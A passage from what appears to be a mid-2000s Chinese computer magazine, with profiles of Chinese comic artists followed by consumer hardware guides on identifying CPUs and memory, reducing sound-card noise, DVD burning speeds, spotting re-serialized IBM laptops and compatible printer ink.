把颜开放在第一位，相信没有人会提出质疑。十年前，作为中国动漫界三剑客之首的颜开，以一部《雪椰》让广大中国漫友记住了他的名字，也记住了他的昵称一盐开水。但也正是《雪椰》，成了大家耿耿于怀的一个心结，已经被尊为“中国漫画第一人”的颜开，却突然带着未完成的《雪椰》，悄然离开了大家的视线。究竟是什么原因，我们不得而知。但就在去年年末，颜开又奇迹般地出现了！未完成的梦想即将延续，我们衷心祝愿他能够一路走好。
《雪椰》连载: http://comic.sina.com.cn/m/2004-12-11/33799.shtml

## 乐观的陈翔

主要作品:《小山日记》、《戏游记》
从一本让人捧腹的《小山日记》，我们认识了乐观的陈翔。从早期的鸟山明和高桥留美子的混合风格到后期让大家熟识的“小山”风格，陈翔经历了巨大的成长。从老家自贡到北京发展，最后又失落而归，同样“发迹”于《少年漫画》的陈翔在当时中国漫画界尚不成熟的环境下也不得不退出了，现在网上能找到的资料不多。
漫画人猫小乐的网站上的陈翔作品:http://www.xiaole.com/pengyou/chenxiang.htm

## 几易其稿的赵佳

主要作品:《黑血》、《B & B》
应该说这是我最喜欢的一个中国漫画人。作品风格粗犷中显细腻，剧情构架能力出色，分镜表现力极强，对于网点的运用更是出神入化。同样是在《少年漫画》上，当时的《黑血》让我眼前一亮，脱离了日本画风的赵佳画出了中国人的经典！一段时间后《黑血》宣布重画，并更名为《B & B》，作者宣称是为了作品的结构调整需要。但又过了一段时间，《B & B》也重画了……又改回原来的名称《黑血》（真能折腾，汗）。据称后来赵佳办起了动漫学校，又有人说她在一本新刊上要继续连载……
作品展示:http://comic.sina.com.cn/2003-12-19/14321.html
故事概要:http://zh.wikipedia.org/wiki/%E9%BB%91%E8%A1%80#E4.BA.BA.E7.89.A9.E4.BB.8B.E7.BB.8D



## 专注少女漫画的自由鸟

主要作品:《红豆缘》、《飞雪飞雪》、《狂夜》、《花妖》、《胜利宣言》、《天籁》
上海的本土画手，很多人都喜欢她细腻和叛逆的画风，她也一度成为中国少女漫画的领军人物。《天籁》是她的作品中我最喜欢的一部。不知大家还记不记得有一段时间曾在市面上出现的伪《幽游白书》续集（即20集开始的部分），网上曾有传言是此人作品，一时引起轩然大波，甚至有网友发帖大骂此事。现在她在《漫友》写专栏，已经许久不见其作品了。
自由鸟的自由飞翔:http://www.gameking.com.cn/gk/dm/04/11/27/91938150.htm
自由鸟，十年间(推荐):http://www.southcn.com/cartoon/make/wen/200412061072.htm

## 不开机箱认识自己的CPU

介绍 CPU 的文章我们做过很多，但对大多数用户来说，却未必有机会把机箱里面的 CPU 拆出来看看，因此，此次我们就来通过系统以及简单的软件方法了解自己的处理器。

### 入门篇

如果只想了解自己的 CPU 型号，Windows Me/2000/XP 这些操作系统都能帮我们完成这个任务。进入 Windows 后，右键单击“我的电脑”，在弹出菜单中点击“系统属性”，那么新弹出的“系统属性”窗口中就会显示 CPU 的属性（见图 1）。当系统搭配的早期 CPU（主要是在 Intel Pentium III 以前的 CPU）时，这里只会显示 CPU 的型号，如图 1 中的 Intel Pentium 4 CPU 这部分。而 Intel 在新处理器中（后期推出的 Pentium III 系列处理器以及 Pentium 4 处理器），在 CPU 内部加入了 CPU 速度信息，因此现在的 CPU 检测时还会有后面的 2.40GHz 字样，这就是这块 CPU 的标准运行频率。另外，Windows 系统属性还能读取 CPU 的实际运行速度，在 CPU 下面的 3.21GHz 就是 CPU 的实际运行频率。需要知道的是，按道理 CPU 的实际运行频率与标准运行频率应该一致，但因为各厂家的主板调节频率的方式不一致的原因，这里的频率会有一定的误差。而如果两个频率差别过大，比如图中标准运行频率是 2.40GHz，而实际运行频率是 3.21GHz，那么你就遇到 CPU 超频了，而如果这 CPU 是你按照 3.20GHz 的型号购买的，那么你就肯定遇到奸商了。当实际频率明显低于标准频率，则说明要么 BIOS 中 CPU 型号设置有错，要么你的 CPU 或者主板有自动降频节能功能，这在笔记本 CPU 中很常见。



如果用户使用的是 AMD 系列处理器，也会看到相似的 CPU 信息，不过如果使用的是 AMD Athlon XP 系列处理器，则它没有 Intel 的标准运行频率，只有当前 CPU 的 PR 值，而这个值是按照当前的 CPU 实际运行速度推算出来的，并不是一个固定的信息。因此，我们不能用这个方法来判断 Athlon XP 处理器是否为 Remark。在 AMD 的 64 位处理中，AMD 也把 CPU 型号信息固化在 CPU 中了，可以通过了解此信息来看购买的 AMD 64 位处理器是否为真品。目前，AMD 的 64 位处理器由低到高包括 Athlon 64、Athlon 64 FX 和 Opteron 三类。



如果我们留意 Intel Pentium 4 处理器的标志（见图 2），会发现标志的右上角有“HT”字样，这表示这块 CPU 支持 Hyper Threading 技术，能把一块 CPU 模拟为两块 CPU，提高 CPU 的使用效率。那么在使用带有“HT”技术的 Pentium 4 处理器时，如何检测是否成功开启了“HT”技术呢？只要启动 Windows 2000/XP 的任务管理器，然后查看其中的“性能”菜单下的 CPU 使用记录，如果看到两个 CPU 使用窗口，就表示成功开启了超线程设置（图 3）。



### 晋级篇

如果想了解自己 CPU 的更多信息，就需要第三方的 CPU 检测软件了。我们推荐用 CPU-Z 这款绿色软件（下载地址：http://www.mydrivers.com/tools/dir17/d6901.htm）。启动 CPU-Z，可以看到如图 4 所示的界面。其中，Name 表示 CPU 型号，如 Pentium 4 或者 Athlon XP。Code Name 表示 CPU 的开发代号，如 Northwood 或者 Prescott 都是 CPU 代号。Package 表示 CPU 的接口和封装方式，如 Socket 478、Socket A、LGA775 等。Technology 就是 CPU 制造工艺，现在多为 0.13 微米或 0.09 微米。Voltage 就是 CPU 的工作电压。Specification 则是 CPU 的型号全称，相当于 Windows 中检测出的 CPU 属性。Family 和 Ext. Family 这几项都表示的 CPU 的批次和改进编号。我们主要注意的应该是 Revision 这个编号，这表示同一制造工艺下 CPU 的不同改进版，一般这个编号每更新一次，就表示 CPU 生产中遇到的 BUG 大量修正一次，CPU 制造工艺又提高一个等级。比如购买赛扬 D 处理器时，我们会说 D0 版本比 C0 版本超频能力更好，这个 D0 或者 C0 版本号就是在这里读取。



图 4 中 Clocks 框内就是与 CPU 有关的各种频率。Core Speed 就是 CPU 当前的实际运行频率；Multiplier 则是 CPU 的倍频；FSB 就是 CPU 的前端总线频率（Front Side Bus），CPU 的运行频率 = 倍频 x 前端总线。Bus Speed 则是 CPU 与芯片组之间的总线频率。最早 FSB 与 Bus Speed 频率是一致的，而自 Athlon 和 Pentium 4 以后，CPU 厂家通过分频技术，能够在一个前端总线周期内让 CPU 和芯片组之间多次交换数据，这样，前端总线与总线频率就成了倍数的关系。比如 Pentium 4 能够在一个 FSB 周期中与北桥芯片交换 4 次数据，因此 Pentium 4 的 Bus Speed 就是 FSB x 4。这也就解释了很多用户的一个疑问：为什么我们总说 Pentium 4 有 800MHz 的外频，但在 BIOS 中调节却只有 200MHz 的前端总线？因为 BIOS 的前端总线是通过频率发生器生成的实际频率，而 800MHz 外频只是一个数据传输的频率。图 4 中的 Cache 框中就是 CPU 的缓存容量，在同样构架下，缓存容量更大的 CPU 性能也会更高。

最后，了解这么多与自己 CPU 相关的信息，但我们依然不知道 CPU 的模样，岂不遗憾？没关系，我们只要联网到能够搜索图片的搜索引擎，比如百度、google，然后按照了解到的 CPU 开发代号为关键字搜索，那么我们 CPU 的模样就轻易地能被搜索出来了。

> (pisces)

## 了解单反数码相机

我们在谈论到近期数码相机市场时，都会说到佳能 300D 或者尼康 D70 “单反数码相机”降价很厉害（甚至比个别民用级别的 DC 还便宜不少）。那什么是单反数码相机呢？
单反数码相机就是指单镜头反光数码相机，即 DSLR (Digital 数码 Single 单独 Lens 镜头 Reflex 反光)。
在这种系统中，光线透过镜头到达反光镜后，折射到上面的对焦屏并结成影像，透过接目镜和五棱镜，我们可以在观景窗中看到外面的景物。与此相对的，一般数码相机只能通过 LCD 屏或者电子取景器（EVF）看到所拍摄的影像。显然直接看到的影像比通过处理看到的影像更利于拍摄。而且观景窗中所看到的影像和胶片上的永远一样，它的取景范围和实际拍摄范围基本一致，十分有利于直观地取景构图。
另外，单反数码相机还有一个很大的特点就是可以交换不同规格的镜头，这是单反相机天生的优点，是普通数码相机不能比拟的。不过，可更换的镜头也导致整个相机的体积大大增加，不便于携带，而且镜头价格不菲。
另外，单反数码相机在更换镜头时都会让感光元件直接暴露在空气中。因此，使用时也必须要注意相机的保养。
还有就是现在单反数码相机都定位于数码相机中的高端产品，因此在关系数码相机摄影质量的感光元件（CCD 或者 CMOS）的面积上，单反数码的面积远远大于普通数码相机，这使得单反数码相机的每个像素点的感光面积也远远大于普通数码相机，因此每个像素点也能够表现出更加细致的亮度和色彩范围，使单反数码相机的摄影质量明显高于普通数码相机。所以，单反数码相机虽然拍摄质量更高，而且现在价格也下降了很多，但也并非适合所有的用户，用户购买时还是要按需选择。



> (房顶兽)## 廉价声卡降噪完全对策

经常听到很多人在说，“我的声卡在使用过程中噪音很大，尤其是将音箱的音量开大后，噪音就更明显了！”如何应对，且看。

噪音较大的故障主要是指电脑在运行影音软件时，音箱中发出的声音背景中夹杂有不正常的声音，比如啸叫、“嗡嗡”、“沙沙”等声音。声卡在使用过程中，都不可避免地会出现声卡发出过大噪音的现象。很多情况下，我们是可以合理地将噪音降到最低的。

## 分析声卡噪音的来源

声卡噪音是一个普遍性的问题，一般来说，声卡主芯片由于是在数字信号下工作，质量都不会有问题，而噪音主要是由廉价模拟电路中产生的。主要原因是声卡上的功率放大电路过于廉价，再加上所使用的电容大多也是极为普通的铝电容，这样很大程度上导致了噪音的产生。

相信很多人分不清这些噪音到底是声卡引起的，还是音箱引起的。这里教大家一个简单可行的方法：断开有源音箱与声卡之间的信号连接线，并接通音箱的电源，再调大音量旋钮。此时如果有杂音，则是音箱有问题。否则的话，就是声卡的问题。

## 将声卡降噪进行到底

本文主要向大家说明声卡引起的噪音，遇到这种情况，最好的办法当然是换声卡，但如果不想花钱，也可以用以下几种方法。

### 1. 将有源音箱接在声卡的Line out接口

一般来说低档外接声卡都有两个音频输出插座，一个是Line out，另一个是Speaker。Line out插座输出未经过放大的音频信号(高阻)，用于接音箱或放大器；Speaker插座输出经过声卡内置放大器放大的音频信号(低阻)，用于接无源音箱或喇叭。对于有源音箱，最好接在声卡的Line out端，它输出的信号没有经过声卡上的功率放大电路，而用有源音箱中的功放电路取而代之，噪音就相对要小得多。否则接在Speaker输出端，由于阻抗不匹配，音频杂波信号经过声卡上功率放大电路的放大，带来的失真会使得噪音大得多。不过，需要注意的是，低档音箱一般是不会有高质量的功放电路的，也只有中高档音箱才有实际意义。用鼠标左键双击任务栏右侧托盘上的小喇叭图标，在随后弹出的“Volume Control(音量控制)”窗口中看看“PC Speaker(PC扬声器)”栏下是否勾选了“静音”（见图1）。

### 2. 不要使用系统默认安装的驱动程序

在安装声卡驱动程序时，要选择“厂家提供的驱动程序”而不要选择“Windows默认的驱动程序”。尤其是Windows XP，太自作主张，系统安装好后，一般会自动安装好驱动程序。

如果已经安装了Windows自带的驱动程序，可以选择“开始→设置→控制面板→系统→设备管理器→声音、视频和游戏控制器”，右击其中设备，选“属性→驱动程序→升级驱动程序→从软盘安装”。这时插入声卡附带的磁盘或光盘，装入厂家提供的驱动程序。

### 3. PCI设备也会产生噪音

声卡容易被其他PCI扩展卡干扰，一般是因为PCI扩展卡采用Bus Master技术，该技术造成当挂在PCI总线上的硬盘进行读写、光驱进行读盘等操作时，放大了背景噪音的缘故。建议将PCI扩展卡间隔插到PCI插槽上。

建议大家进入BIOS设置程序，将“HDD S.M.A.R.T Capability”设置为“Disable”。我们在使用光驱拷贝数据时，有时音箱中会传出“呜呜”的光驱高速转动的声音，这就是干扰。光驱高速工作时的干扰脉冲，通过数据线或电源线，也可能是空间的辐射，被音箱进行放大传出。而这起故障应该是硬盘在故障发作时，硬盘的主轴电机可能出现失控的现象，并产生强磁干扰。这些干扰信号被音箱放大，才产生了烦人的“吱吱”声。

### 4. 声卡与扩展槽接触错位

由于很多机箱制造精度不够高，声卡外挡板制造粗糙或安装时没有安装到底导致声卡不能与主板扩展槽紧密结合。拔下声卡后，仔细观察，如果发现声卡上“金手指”有较明显的擦痕，表明与扩展槽簧片有错位，这就造成数模信号不能得到完全正确的传递。这种现象在PCI卡上都有，属于比较常见的故障。一般把声卡外挡板校正好即可解决问题。

### 5. 光驱音频线的信号地线与声卡地线不共地

为了能使光驱直接欣赏CD音乐，光驱提供一个四芯的音频线可供连接到声卡上。由于电源线上的等效电感对光驱等负载的影响较大，虽然声卡的地线与光驱音频线的信号地线相连，但不共地，存在一定的电位差，会通过音频线中的信号地线流动，造成光驱启动时产生噪音。同样声卡的CD输入端地线与光驱音频线的信号地线相连也存在同样的问题。当CPU、硬盘、光驱等硬件运行速度越来越高时，机箱内的高频噪音干扰也就越来越大。解决这个问题的方法是在光驱和声卡之间用光电耦合器把地线隔离起来，防止因电位差而引起的噪音串入电路，同时起了降噪效果。另外，为了过滤掉硬盘、光驱和CPU风扇所产生的干扰信号的影响，可以缩短IDE接口电缆线和CPU风扇的电源线。

### 6. 麦克风与声卡连线未使用屏蔽线

麦克风与声卡连线未使用屏蔽线或屏蔽接地不良，外界的高频干扰信号通过麦克风输入电路均会引起噪音。这时如果取下麦克风，噪音会马上消失。如果使用了屏蔽线，请检查线外屏蔽层是否接地良好。

## 让板载声卡不再“爆音”

板载声卡除了独立声卡可能发生的故障以外，由于它通常需要借助CPU的支持才能完成音频解码工作，故硬件系统对它工作的正常与否也有着很大的影响。因此，板载声卡会出现“爆音”现象。

由于板载声卡数字音频的处理过程完全依赖于CPU。因此，如果在播放音乐的同时CPU还要处理其他任务，尤其是对硬盘进行频繁的读写操作时，就会出现较大的“爆音”。这时可尝试通过关闭硬盘的DMA选项来消除这种影响，不过这样做是以牺牲硬盘性能为代价的。

有时候，大家可能会遇到运行某些程序时出现声音断续的问题。大家应检查硬盘的传输模式是否为DMA。然后，可以将DirectX诊断工具里的声音选项卡中的“完全加速”调整为“基本加速”（见图2）。如果有更新版本的声卡驱动程序，一定要及时下载更新。通过上述几个步骤，一般情况下“爆音”现象会减轻或消除。

（北京 天马行空）

## 巧用数码相机拍摄立体照片

看过立体电影的人都知道，立体电影银幕上的影像能产生立体感，使人觉得如同身临其境。现在我们用数码相机所拍摄的照片，与普通电影银幕上的影像一样，不能产生这种立体感，那么有没有办法使拍摄出来的照片产生立体感呢？本人做了一下实验，所拍摄的照片立体感令人满意。有兴趣者不妨按下述方法一试。

第一步：准备一台数码相机，选定一个近距离的被摄景物(距离相机1.5～3m效果最好)。

第二步：用木板做一个相机架(见图1)，使拖板的左右行程为人的两眼间距5.5cm～6cm。

第三步：将数码相机固定在拖板上，然后对同一个被摄景物拍摄两张照片(将拖板置左边右边各拍一张，在这个过程中不可以移动底托)。记住照片所属左或右。

第四步：完成后上传到电脑，用Photoshop分别打开左右两张照片，屏幕上显示的照片就成为一对立体因素的照片(见图2)。这种立体效果的照片是两张一组的，每一张代表一只眼看到的景象。

第五步：观看需要用到双筒折射式望远镜，笔者在地摊上花30元购买了一个，其两目镜中心距离为5～7.3cm可调，两物镜中心距离为11.5～13.5cm。

第六步：观看时将目镜和物镜拆掉不用。将屏幕上的左右两张照片显示缩小为30%，左右照片的中心距离调整为12cm（望远镜两物镜的中心距离），这时可拿望远镜观看，两眼紧靠望远镜，将望远镜与屏幕的距离调整为40cm左右，待目光调整适应以后，就觉得两幅相片向中央并拢重叠，眼前就显现出一幅立体照片了。

（广东 向勇飞）

## DVD刻录速度之谜

谜一：DVD倍速的由来 要解释DVD刻录倍速的问题，首先要解释DVD的倍速的标准。DVD最早是称为Digital Video Disc(数字视频光盘)，首要目标是存储高分辨率的影音节目。按照最初设定，DVD提供的影音数据流最高为10Mbit/s，通过MPEG-2的压缩标准，能够存储720×480分辨率30帧/s(NTSC制式)或720×576分辨率24帧(PAL制式)的影音数据。10Mbit/s折算出来就是1.25MB/s，再留一定的数据余量，因此DVD的倍速就定为1.35MB/s。后来DVD改名为Digital Versatile Disc(数字通用光盘)，还能存储数据，而DVD的倍速标准就由此制定，与DVD相关的各类产品，如DVD+/-R、DVD-RAM等也遵循此速度标准。

谜二：16×是否比1×快16倍 光存储的转轴都有极限转速，在目前技术下，这个速度为10000转/分钟。当高于这个转速时，光盘很可能不能承受高速旋转下的离心力，导致光盘破碎。DVD和DVD刻录机的16×都是DVD光盘的最外圈的传输速度，而在内圈，同样转速下半径更小，实际传输速度也更低，在最内圈的传输率也就6倍左右。我们所说的16×DVD刻录机其实应该叫“最大16倍速DVD刻录机”。

谜三：同样16×DVD刻录机，为何速度有差别 不同厂家的DVD刻录机刻录方式不同。主要有部分恒定角速度和部分恒定线速度两种。恒定角速度就是刻录机的主轴电机一直按照10000转/分钟旋转，刻录机则按顺序刻录，直到刻录机能支持的最大速度。这样的刻录中刻录速度一直在提升(如图1)。部分恒定线速度的刻录中。刻录机由内圈往外圈刻录，在一段区域内刻录速度恒定，主轴电机则从10000转/分钟慢慢降速。降到一定程度时，再次提升到10000转/分钟，刻录速度也同时提高，直到最外圈用16倍速刻录(如图2)。

我们不谈两种刻录方式的优劣，单从速度来讲，一种方式主轴电机全速运转，另一种主轴电机会慢慢降速，显然持续全速运转的刻录速度会更快。

谜四：16×DVD刻录机会不如12×或者8×产品 从谜三提供的两张图片可以看出，由于部分恒定线速度的16×DVD刻录机持续在16×刻录的时间并不长，再加上前面刻录时提速不够快，有可能比一些12×部分恒定角速度的DVD刻录机刻录时间更长，但这个时间差别是很微小的。而8×DVD刻录机则与16×产品的速度差别过大，不会出现8×产品快过16×的情况。

谜五：DVD刻录盘和刻录机达不到标准速度 刻录时，我们会遇到16×刻录机只能用4×刻录8×盘片、8×刻录机只能用2×刻录4×盘片等。以8×刻录机不能刻录8×碟为例，这里有几种可能：

-   1. 刻录机只是部分8× 我们知道DVD刻录机有DVD+/-R两种刻录格式。虽然两种刻录格式最后的刻录结果看起来没什么不同，但两个刻录格式是要分开认证的。一般来说，都是“+”格式先提升速度标准，过一段时间后，“-”格式才提升到同样的标准。这意味着一些8×DVD刻录机只是支持8×DVD+R的标准，不支持8×DVD-R的标准。这样的刻录机用8×DVD-R的碟片也只能用4×刻录了。用户可从刻录机的包装上查看相关刻录速度，查证是否为这种情况。这样的情况下我们一般可以采用刷刻Firmware的方式让刻录机成为全8×刻录，或者使用8×DVD+R的碟片。

-   2. 8×同格式的盘和刻录机也不能8×刻录 这是因为DVD刻录机发展太快，导致盘片和刻录机认证不够规范造成的。从刻录盘片的原理来说，2×刻录盘和8×甚至16×刻录盘的制造工艺完全一样，所不同的就是最后的质量检测，高质量就成了8×或者16×，低质量就是2×。这种质量检测，除了生产厂家自检外，还会把这些碟片送到DVD刻录机大厂检测，看是否符合标准。符合标准，那么这些碟片就会印上相应的速度标示，然后刻录机厂商也会把盘片信息写入刻录机的Firmware中。问题是，厂家生产的一般只送制定DVD刻录标准的那几家检验，这样其他厂商的产品中没有相关的Firmware信息，只能按照刻录机自动检测到的速度刻录，而这个速度通常都是一个安全速度，而不是高速了。那么这些8×的DVD刻录机的速度标准又是怎么定的呢？把做好的刻录机用大厂盘片检验，如果能通过8×刻录的标准，就是8×刻录机了，而面对市场上浩如烟海的杂牌刻录盘，就能测多少算多少了。

由于DVD刻录机发展速度过快，导致盘片质量远远跟不上刻录机的发展，杂牌DVD刻录盘中，不但8×相当少见，就是4×的质量也是良莠不齐。这样情况下，对买了DVD刻录机的用户，我们建议，经常升级Firmware，并最好选择名牌刻录盘。对打算购买DVD刻录机的用户，我们建议购买DVD刻录标准制定者以及相会组织会员的相关产品。

附：DVD+/-R联盟相关会员列表可在http://www.dvdrw.com/industry-support.htm 和 http://www.rwppi.com/company/index.html查到，我们熟悉的惠普、飞利浦、索尼、理光、三菱、先锋、浦科特、明基都是相关标准的制定者或者会员。

（pisces）

## 不开拆机认识内存

### 入门篇

Windows的系统属性同样可以提供给我们简单的内存信息。图1中的“1.00GB的内存”字样就是操作系统的物理内存容量。不过这也是操作系统仅仅能提供的内存信息了。甚至我们在系统的硬件设备列表中也看不到内存这项设备的名称，最多在芯片组相关的设备下面看到内存控制器。这是因为内存属于一个很标准化的设备，各厂家生产的同类内存在结构上是完全一致的。内存只需要和内存控制器交换数据，而操作系统也只需要判断内存容量，以确定需要往内存中读写多少数据，至于具体怎么读写就完全是内存控制器的事情。因此在Windows中能为我们提供的内存信息才如此的少。但内存信息又并不是只有Windows提供的那么少，比如我们现在购买的多是DDR400内存，还要内存组成双通道，另外i875主板还提供PAT功能，等等。这些与内存相关的信息我们又如何获取呢？

### 晋级篇

早期的内存由于结构简单，运行频率也不高，因此都是简单地插上就能用，而内存控制器以及BIOS中也没有太多的设置。当内存发展到PC100 SDRAM时，受限于当时的技术水平，只有高质量的内存在相应的内存设定下运行于PC100的频率，而为让芯片组中的内存控制器能够判断出内存是否符合PC100标准，以及该如何设置相应参数，从PC100内存开始，内存条上就增加了一块只读存储芯片，专门存储该条内存的各种标准设置信息，这就是内存的SPD（Serial Presence Detect，意译“配置序列检测”）芯片（如图2）。而现在有不少软件就能通过读取内存的SPD来告诉我们信息。 这里我们推荐这款EVEREST Home Edition（以下简称EVEREST）小型综合测试软件，它的内存检测项目不但能告诉我们许多内存相关信息，还能对内存性能进行简单的测试。下载地址为：http://www.lavalys.hu/pre/everesthome/everesthome_build_0224.zip。

启动EVEREST后，点击展开左侧MENU菜单下的Motherboard菜单，点击SPD选项，在右侧窗口中我们就能了解到自己内存的基本信息（如图3）。在右上的检测框中，我们能够看到一条或者多条内存信息，这表示系统中安装的内存数量，如图3中，这台电脑的1GB内存就是由两条512MB内存组成的。右下的窗口则是每条内存的具体检测信息，重要信息主要有以下几点：Module Name表示内存条生产厂家的名称，比如我们买的金士顿内存，那么这里应该显示Kingston。Memory Type就表示内存类型，现在多数都是DDR SDRAM，而Intel 9x5芯片组则可以搭配DDR II内存。我们就可以在这里查到电脑内的内存类型和我们购买时是否一致。Memory Speed就是内存的标准运行速度。我们在这里看到PC3200(200MHz)字样，这与我们所说的DDR400内存有什么关系呢？这段信息表示内存标准运行频率为200MHz，而DDR内存能够在频率周期传输两次数据，因此这就是DDR400内存，而在下面一个检测信息中，Module Width表示内存通道的宽度为64bit，那么DDR400内存的带宽就是频率乘以位宽，就是400MHz x 64bit=25600Mbit/s=3200MByte/s（8bit=1Byte），因此，DDR400内存就是PC3200内存。同理，DDR266等同PC2100；DDR333等同PC2700；DDR500等同PC4000，以此类推。

内存检测项目的Memory Timings表示此内存在标准运行频率时的内部时序设置。简单来说，同样频率下时序越短的内存性能越好，但对内存品质的要求也更高。关于时序的具体内容涉及到很深的内存知识，希望了解的朋友可以阅读http://www.stor-age.com/jishu/htm2004/04032212JAEF.asp的文章。

接下来的Memory Module Features则是各内存芯片厂家推出的各种特殊规格内存的支持特性，与我们常用的内存没有太大关系。至此，我们已经了解电脑里面内存的基本信息，那么内存的工作状态又如何呢？

在Motherboard展开菜单中的Chipset项目中，我们找到Memory Controller（内存控制）项目，可以看到内存的工作状态（如图4）。其中Type表示内存能够支持的工作状态，Dual Channel就是我们所说的双通道内存。Active Mode则是内存正在工作的状态，这里检测出同样是Dual Channel，则表明双通道内存已经开启。如果用户的电脑满足双通道内存的要求（主板、内存都支持），但检测出来双通道并没有开启，就要检查原因了。在内存控制项目下还有一个PAT检测项目，这本是Intel 875芯片组主板特有的功能，不过经过厂商开发，让Intel 865主板也能部分启动这个功能，启动后能提高一定的内存性能，不过也需要内存质量过硬。

我们在谈论内存运行时，通常会谈到内存频率与前端总线的分频，有1:1、2:3、5:4等等，这些东西该如何设置呢？我们一测便知。在Motherboard展开菜单的Motherboard项目中，Front Side Bus Properties（前端总线属性）下有一个Bandwidth（总带宽），代表CPU能接受的数据带宽；Memory Bus Properties（内存总线属性）项目同样也有一个Bandwidth，是内存能够提供的带宽。当分频的结果是内存带宽小于CPU带宽时，内存的所有带宽都能被CPU接受，因此此时内存是满负荷工作，而最理想状态当然是内存带宽等同CPU带宽。当内存带宽大于CPU带宽时，内存带宽并不能完全被CPU使用，这时的内存性能虽然从理论上要高不少，但受到CPU的带宽限制，在实际测试和应用中并不比内存带宽等同于CPU带宽时高多少。因此，我们在设置内存与前端总线的分频时，只要让内存在稳定的情况下带宽尽量接近或者等同前端带宽就可以了（如图5）。

最后，在Benchmark展开菜单中，我们还能了解到自己内存的具体性能，并与标准平台对比。

（ 懒猫）

## 识别返修货就这几招

最近市场上出现了一批IBM的低价笔记本电脑，它们多是已经停产的经典机型。用户在选购此类产品时必须多加小心，有不少返修的笔记本电脑回到维修部后，通过除尘、喷漆等翻新手段，重新包装后又返回到市场，大家千万不要被它们的低价外表所迷惑。

### 密招之一：检查外观

首先是外壳，仔细检查表面涂层有无划痕，色泽是否均匀。特别是翻盖和面板右下角的LOGO，有没有重新喷漆的痕迹。因为大部分返修本本在返修过程中都会打开底壳，因此仔细检查一下底部的螺丝是否有打开过的痕迹。

### 密招之二：序列号是否吻合

序列号就像笔记本的身份证，通过它我们就可以判别这款产品是否正品（刷号机在文章下半部分会介绍）。IBM笔记本的序列号位于底部标签上，排列顺序依次为“机器型号编号 生产日期”，如“TYPE 2655-CS5 S/N 97-93C09 05/01”。

-   ThinkPad Configuration小档案
最新软件: A-1.36
软件大小: 9796KB
授权方式: 免费软件
适用平台: Windows 98SE/2000/XP/Server 2003
下载地址: http://www-900.ibm.com/cn/support/download/attachment/

如果查不到，那就要小心了。还有些刷号机，虽然能上网查到，但是最好去客服中心鉴别一下比较好。另外，如果机身注明“REFURBISHED”（原厂返修）字样，表示这台笔记本是出问题回厂整修的翻新机，最好别买。

## 巧辨本本返修货

## 识别刷号机的密招

目前市场上的刷号机主要集中在IBM机型上。所谓刷号机，就是将机身内部（即BIOS中）的序列号用专业的设备或者软件进行修改，写入和行货一样的序列号。为了配合机身中的序列号，必须将机箱、机身背面的序列号全部更改。根据笔者的了解，如果蓝色快车发现用户使用的刷号机来进行保修，那么连水货的全球联保资格都会取消。那么，我们应该如何识别刷号机呢？

### 密招之一：微软软件授权标签

由于微软将软件授权证(即COA)做成了不同的颜色用来区分不同语言的产品，这就为我们大家识别刷号机提供了有利条件。水货一般是贴蓝色的认证标签，行货的认证标签为橘红色，上面标有Simchn字样，刷号机的该标签为浅蓝色，没有Simchn字样。大家也可以打IBM中国的免费电话8008101818，按接线员的提示识别即可。如果COA和你的机身的S/N号对不上，那就是百分之百的刷号机了。

### 密招之二：检查保修卡

2004新版保修卡运用了多项钞票防伪技术。首先，保修卡正面上方“IBM计算机产品保修卡”及右侧的花团皆为凹版雕刻，用手摸有强烈的凹凸感。此外“IBM计算机产品保修卡”用放大镜看，可以发现它的底纹是由许多微小的“IBM”字样组成。花团中仔细看也有隐性的“IBM”字样。将保修卡对着迎光处看，可以看到满版的“IBM”水印，右侧有一条金属安全线。保修卡右下角的带圈数字从不同角度看，会显示三种不同的颜色。如果没有保修卡或者有任何不符合的地方，肯定摆脱不了水货或刷号机的嫌疑。另外，大家可以看看标签的四角，行货标签比较圆润，而刷号机的有明显的棱角。

### 密招之三：查看进网许可证

现在的笔记本电脑都内置了MODEM，因此必须在背部贴一张MODEM进网许可证。和手机的进网标签分辨的方法相同，首先看颜色，行货的进网标签为淡蓝色，水货的进网标签呈深蓝色。其次，字体方面也有差异，真的进网标签字体边缘非常锐利，假的较为圆滑。如现场验机有条件的话，更可以登录电信设备进网/认证网(http://www.tenaa.com.cn/FlagValidate.aspx)进行鉴别。如果你上网不方便就可以打电话到010-82058767/82050313进行人工查询。

### 密招之四：查看无线网卡MAC

某些标配无线网卡的机型在机型号条码左边还有一张较小的MAC条形码，行货的字号比较小，字缘相当圆润没有毛边；而刷号机的字号大一点，字体类似于宋体或仿宋体。进入BIOS设置程序后，也可以在这里查看MAC是否和条形码一致。

小编有话说：刷号机还需要更改机器原配的操作系统，这一点就比较简单了，IBM内部早已透漏出最大4张CD的ISO恢复镜像，用这种镜像恢复系统后，机器会自动变成一个分区，并且同时生成一个HPA恢复分区，恢复完成后的机器和行货的机器一模一样，完全不用考虑有露马脚的地方。

相信买到刷号机的读者，有些已经找销售商寻求解决，可是有的用户就没这么好远了。机器出了问题，最急的是用户，这种情况到底让用户怎么办？你要知道进一步的情况来维护你的权益，欢迎到CFan论坛参与讨论。

（本刊记者 王寒晖）

## 兼容墨水的品质真的和原厂一样？！

如今，很多家庭和办公室都拥有一台彩色喷墨打印机，但是我们常常会发现普通家庭用户很少利用它来打印彩色图形(或图像)，究其原因很简单：“买得起好马却配不起好鞍”！现在一台喷墨打印机的硬件成本很低，低档只要三四百元，顶级照片打印机也不过两千出头，但假设以每天打一张A4幅面的照片计算，没几天原厂墨水就用光了，不然怎么称之为“耗材”呢？难怪有人说：打印机生产厂商的利润都来自于耗材。所以，很多人都会选择兼容墨水或兼容墨盒作为替代。

## 使用兼容墨水将会失去保修

通常我们把打印机生产商为自己生产的喷墨打印机指定的配套墨盒称为原厂耗材，其明确标识耗材与打印机的品牌相同(如Epson、HP、Canon、Lexmark等)。而与喷墨打印机生产商不一样的所有种类的墨盒、填充墨水统称为兼容耗材，这与产地是没有任何关系的。
打印机厂商要求用户必须使用“原装”的墨水，如果使用兼容墨水造成喷墨打印机损坏，将得不到正常的保修服务。的确，兼容墨水厂商在墨水调和的浓度、喷嘴每次喷出的量等等技术指标，都只能以近似值来模拟，使用原装墨水的确可以保证打印机正常运行和确保打印质量。在打印品质上，不同品牌的兼容墨水也肯定会存在差异。至于兼容墨水为何会在市场上大行其道，完全是因为价格优势。

## 使用兼容墨水会不会损坏打印机

